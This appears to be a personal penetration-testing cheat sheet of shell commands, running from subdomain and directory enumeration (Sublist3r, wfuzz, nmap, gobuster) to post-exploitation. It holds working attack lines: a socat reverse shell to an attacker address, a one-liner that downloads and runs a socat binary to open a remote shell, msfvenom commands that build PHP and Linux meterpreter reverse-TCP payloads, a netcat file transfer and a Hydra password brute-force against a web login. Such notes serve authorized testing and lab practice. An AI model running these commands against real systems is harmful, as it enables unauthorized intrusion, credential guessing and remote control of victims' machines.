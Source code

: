 ## Sublister
### normal walkover
	~/git/Sublist3r/sublist3r.py -d <domain> -p80,443,22,21 -v -o ~/bounty/<domain>/subdomainsublister.txt

## Wfuzz
### directoryfiles
	wfuzz -c -w ~/git/SecLists/Discovery/Web-Content/raft-medium-files.txt -Z --hc XXX,404 <target>/FUZZ
### subdomains
	wfuzz -c -w ~/git/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -Z --hc XXX,302,404 -f <list_of_subdomains> FUZZ.<target>

## Nmap
### full scan + device version + fingerprinting 0-10000 ports
	sudo nmap -sC -sV -O -p0-10000 <target>

## Gobuster
### directory bruteforce
	gobuster dir -u <URL> -w <Wordlist> -x php -o output.txt

### DNS bruteforce

## GitTools
### scan
	~/git/GitTools/Finder/gitfinder.py -i ~/bounty/<domain>/subdomainsublister.txt -o ~/bounty/<domain>/gitfinder.txt

	~/git/GitTools/Finder/gitfinder.py -i ~/bounty/<company>/subdomainsublister.txt -o ~/bounty/<company>/gitfinder.txt

## fancy awk
### field
	cat file.csv | awk -F'"' '{print $4}' > awk.txt

## upgrade shell
### create your own tty
	script -q /dev/null bash

### socat fully interactive tty
#### listen
	socat file:`tty`,raw,echo=0 tcp-listen:4444  
#### launch
	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  
#### oneliner 
	wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444

### autocomplete shell
	ctrl-z
	stty raw -echo
	fg
	
### script -q /dev/null sh

### python
	python -c 'import pty; pty.spawn("/bin/bash")'

## netcat file send
### receive 
	nc -l -p 1234 -q 1 > something.zip < /dev/null
### send
	cat something.zip | netcat server.ip.here 1234

## python http server
### pyhton2 
	python -m SimpleHTTPServer 8000
### python3 
	python -m http.server [<portNo>]
### get file
	curl http://example.com:9090/file --output file

## port forward
### ssh
	ssh -f -N -R 3022:127.0.0.1:3022 root@<target_ip>
### socat
	./socat TCP-LISTEN:8899,fork TCP:127.0.0.1:5432

## Meterpreter shell
### PHP
	msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
	cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
### linux x86
	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf

## tcpdump listen to icmp traffic
	sudo tcpdump -nni tun0 icmp

## hydra
	hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form "<URL>/index.php?action=authenticate:username=^USER^&password=^PASS^:Bad"

## extracting files
### gz
	gunzip <file.bz>
### tar.bz
	tar -xzvf <file.tar.bz>

## sort output and count
    sort -u output | wc -l

## disk usage
### folder
	du -ah /<dir>
### system
	df -ah

## print a lot of characters
	python -c "print('A' * 120)"
